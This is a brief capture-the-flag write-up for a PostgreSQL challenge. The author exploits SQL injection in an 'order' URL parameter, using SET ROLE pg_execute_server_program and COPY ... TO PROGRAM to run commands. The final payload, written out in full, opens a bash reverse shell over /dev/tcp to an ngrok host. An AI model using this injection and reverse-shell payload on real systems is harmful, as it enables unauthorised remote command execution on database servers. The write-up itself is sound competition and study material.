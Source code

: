 # Writeup Author
hsw

## Description
I still like dogs, so I tried to make the previous version more secure. The treat is now in the root directory - that should help, shouldn't it?

## Solution
I guess everyone can easily do the v1, and just lacked a little luck for v2, yall know its only have pg_execute_server_program, i tested multiple time with https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=pentest%20postgre#rce with still no luck, after ~1 hour, i got the flag:

![](./images/gpt1.png)


![](./images/gpt2.png)

Aight, but i still can’t manage a sleep tho, but somehow its a bit longer that when i tried to make a rev shell and BOOM, it worked! Here is the final payload:

`http://52.59.124.14:5021/?order=1%3BSET%20ROLE%20pg_execute_server_program%3BCOPY%20(SELECT%20'')%20TO%20PROGRAM%20'bash%20-c%20"exec%20bash%20-i%20>%26%20/dev/tcp/0.tcp.ap.ngrok.io/12365%200>%261"'%3BSELECT%20'shell'%2C1%2C1%3B--`

